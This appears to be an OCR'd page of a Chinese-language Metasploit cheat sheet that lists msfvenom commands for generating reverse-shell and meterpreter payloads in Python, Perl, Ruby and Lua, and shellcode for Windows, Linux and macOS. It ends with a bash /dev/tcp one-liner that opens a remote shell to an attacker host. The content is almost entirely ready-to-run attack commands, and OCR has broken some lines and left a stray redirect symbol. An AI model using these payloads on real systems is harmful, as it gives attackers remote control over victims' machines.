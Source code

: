 

msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -

f raw -o payload.py

Perl:



msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o

payload.pl

Ruby:



msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o

payload.rb

Lua:



msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o

payload.lua



### 生成 ShellCode

Windows ShellCode:



msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=

攻击机IP LPORT=攻击机端口 -f c

linux shellcode:



msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻

击机IP LPORT=攻击机端口 -f c

mac shellcode:



msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP

LPORT=攻击机端口 -f c

Bash shellcode:



[root@localhost ~]# msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.30 LPORT=8888 > -f raw > payload.sh

[root@localhost ~]# exec 5<>/dev/tcp/xx.xx.xx.xx/xx

[root@localhost ~]# cat <&5 | while read line; do $line 2>&5 >&5; done

Python shellcode
